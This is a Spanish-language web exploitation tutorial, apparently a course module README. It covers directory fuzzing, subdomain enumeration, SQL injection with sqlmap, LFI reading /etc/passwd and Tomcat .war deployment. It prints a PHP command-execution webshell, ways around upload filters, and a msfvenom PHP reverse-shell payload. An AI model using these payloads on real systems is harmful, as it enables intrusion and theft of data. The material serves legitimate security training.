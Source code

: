 
# 🌐 Explotación de Vulnerabilidades Web

Este módulo abarca las técnicas esenciales para identificar y explotar vulnerabilidades en aplicaciones web. Aprenderás a utilizar herramientas de fuzzing, analizar peticiones HTTP, realizar inyecciones SQL, subir shells web, y más.

---

## 🕵️‍♂️ ¿Qué es el Fuzzing Web? – Uso de Gobuster

**Fuzzing** es el proceso de enviar entradas automatizadas para descubrir directorios, archivos o puntos débiles.

```bash
gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt
```

---

## 🌐 Enumeración de Subdominios con Wfuzz

```bash
wfuzz -w subdomains.txt -u http://FUZZ.target.com -H "Host: FUZZ.target.com"
```

---

## 🧬 Transferencia de Zona DNS (OPCIONAL)

```bash
dig @ns1.target.com target.com AXFR
```

Si está mal configurado, puede filtrar información interna del dominio.

---

## 🧪 Otras Herramientas de Fuzzing Web

- `ffuf`: rápido y moderno
- `dirsearch`: en Python
- `dirb`, `dirbuster`: más antiguos pero funcionales

---

## 📤 Explotación de Vulnerabilidad File Upload

Busca formularios de subida de archivos que permitan subir `.php`, `.jsp`, `.asp` o `.aspx`.

### Ejemplo básico:
Sube una webshell PHP:
```php
<?php system($_GET["cmd"]); ?>
```

Y accede:
```
http://target/uploads/shell.php?cmd=id
```

---

## 🔗 Primeros pasos tras la intrusión (TTY)

Convierte tu shell básica en una TTY interactiva:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## ⚙️ Webshell y Acceso Persistente

Puedes subir shells como `c99.php`, `b374k`, o usar:

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=4444 -f raw > shell.php
```

---

## 🛑 Bypass de Restricción File Upload

Técnicas:

- Subir archivos `.php.jpg`
- Usar doble extensión `.php;.jpg`
- Modificar el Content-Type
- Usar herramientas como Burp o ZAP para interceptar y modificar el upload

---

## 🧪 Burp Suite – Modificar Peticiones HTTP

Intercepta y modifica headers como:

- `User-Agent`
- `Referer`
- `Cookie`
- `Content-Type`

---

## 🔁 Burp Suite – Uso del Repeater

Permite repetir solicitudes HTTP modificadas para observar el comportamiento del servidor.

---

## 🎯 Burp Suite – Uso del Intruder

Automatiza ataques como fuerza bruta de login, fuzzing de parámetros, y más.

---

## 💉 Inyecciones SQL – Uso de SQLmap

SQLmap automatiza la detección y explotación de inyecciones SQL.

```bash
sqlmap -u "http://target.com/item.php?id=1" --dbs
```

---

## 💉 SQLmap – Ejemplo 2

Extraer tablas:

```bash
sqlmap -u "http://target.com/item.php?id=1" -D database_name --tables
```

---

## ⚙️ Hacking Servidor Tomcat

Buscar panel de login `/manager/html`. Si se puede acceder con credenciales por defecto, se puede desplegar una shell `.war`.

---

## 📂 Explotación LFI (Local File Inclusion)

```bash
http://target.com/index.php?page=../../../../etc/passwd
```

Buscar inclusión de archivos sensibles del sistema o incluso logs.

---

## 🛡️ Wireshark para Interceptar Credenciales

Captura tráfico vulnerable como FTP, HTTP o Telnet:

```bash
wireshark &
```

Usa filtros como:
```
ftp
http.request
telnet
```

---

📚 Recursos adicionales:

- https://github.com/sqlmapproject/sqlmap
- https://portswigger.net/web-security
- https://ffuf.me/

---

💡 “Conoce cómo hablan las aplicaciones web, y sabrás dónde esconderte… o atacar.”
